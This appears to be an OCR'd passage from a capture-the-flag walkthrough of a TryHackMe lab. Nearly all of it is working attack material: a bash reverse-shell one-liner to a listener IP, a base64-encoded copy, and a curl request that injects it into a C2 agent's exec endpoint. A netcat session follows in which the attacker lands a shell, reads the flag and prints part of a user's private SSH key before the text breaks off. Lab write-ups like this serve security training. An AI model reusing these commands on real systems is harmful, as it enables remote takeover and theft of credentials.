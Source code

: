         

bash -i >& /dev/tcp/10.10.49.180/8888 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC40OS4xODAvODg4OCAwPiYx

![image](https://github.com/user-attachments/assets/8719b45f-8532-4a09-bb84-b47a1218b8cd)


root@ip-10-10-49-180:~# curl -X POST -A "z.5.x.2.l.8.y.5" http://takedown.thm.local/api/agents/jytj-tdgr-hgbh-ptlx/exec -H "Content-Type: application/json" -d '{"cmd": "exec echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC40OS4xODAvODg4OCAwPiYx | base64 -d | bash"}'
New commnad to execute: exec echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC40OS4xODAvODg4OCAwPiYx | base64 -d | bash
root@ip-10-10-49-180:~#


root@ip-10-10-49-180:~# nc -nlvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.226.13 58620
bash: cannot set terminal process group (1852): Inappropriate ioctl for device
bash: no job control in this shell
webadmin-lowpriv@www-infinity:~$ ls
ls
foo.txt
user.txt
webadmin-lowpriv@www-infinity:~$ cat user.txt
cat user.txt
THM{c2_servers_have_vulnerabilities_t00}
webadmin-lowpriv@www-infinity:~$ cd /root
cd /root
bash: cd: /root: Permission denied
webadmin-lowpriv@www-infinity:~$ ls -lah
ls -lah
total 44K
drwxr-xr-x 5 webadmin-lowpriv webadmin-lowpriv 4.0K Jul 27  2022 .
drwxr-xr-x 4 root             root             4.0K Jul 27  2022 ..
-rw------- 1 webadmin-lowpriv webadmin-lowpriv    5 Jul 27  2022 .bash_history
-rw-r--r-- 1 webadmin-lowpriv webadmin-lowpriv  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 webadmin-lowpriv webadmin-lowpriv 3.7K Feb 25  2020 .bashrc
drwx------ 2 webadmin-lowpriv webadmin-lowpriv 4.0K Jul 27  2022 .cache
drwxrwxr-x 3 webadmin-lowpriv webadmin-lowpriv 4.0K Jul 27  2022 .local
-rw-r--r-- 1 webadmin-lowpriv webadmin-lowpriv  807 Feb 25  2020 .profile
drwx------ 2 webadmin-lowpriv webadmin-lowpriv 4.0K Jul 27  2022 .ssh
-rw-r--r-- 1 webadmin-lowpriv webadmin-lowpriv  447 Jun 24 04:21 foo.txt
-rw-rw-r-- 1 webadmin-lowpriv webadmin-lowpriv   41 Jul 27  2022 user.txt
webadmin-lowpriv@www-infinity:~$ cd .ssh
cd .ssh
webadmin-lowpriv@www-infinity:~/.ssh$ ls
ls
authorized_keys
id_rsa
id_rsa.pub
webadmin-lowpriv@www-infinity:~/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA2y28m9zvL55VUnGvjKvJoO/puyib5S2W5dK6j9RS0IunKooAeiTj
h7lfUiVmHi+Jrf9SwGvU386UneEsvJ6KSNZvIezrfmHltx3igasWldeeGsxuA4qLHsQCy0
5aZyWnnSm5z0bi1uUDUeb75H3MX4rxXT0JrsryYYjd9Vz4cNGW5zk/J4m6O3PAla+notFn
6yLZ/gBSpodFCXRH3mfzhC8RLEnfkl79gR4FuqaCa/CFkgr5/REYy8dDbBsGIloOF3CxtO
IdwOJWCcfAN9aM4/IbIg6+Goi+MoLB8bmnCLsyB3KedBPdxZIH3sGKBMXYLiI9nXtoONsY
clYEp4aL6rlqGDzK+Haxj9bjBV03UAFyJuZErSf+lxGa3bY3szRm7MkshokeMeIrKUHJEl
VLqBISgyPvi3dJi/Yr/37lmRtFPCFYvzRPH1ax4c/qfjoWjlCYkHxwbuCkHUvuYia/qqs4
zh3ceC7VWa1VDa48fBoDVIuMNytq5D1Zwy7bOLSdAAAFmJefdgGXn3YBAAAAB3NzaC1yc2
EAAAGBANstvJvc7y+eVVJxr4yryaDv6bsom+UtluXSuo/UUtCLpyqKAHok44e5X1IlZh4v
ia3/UsBr1N/OlJ3hLLyeikjWbyHs635h5bcd4oGrFpXXnhrMbgOKix7EAstOWmclp50puc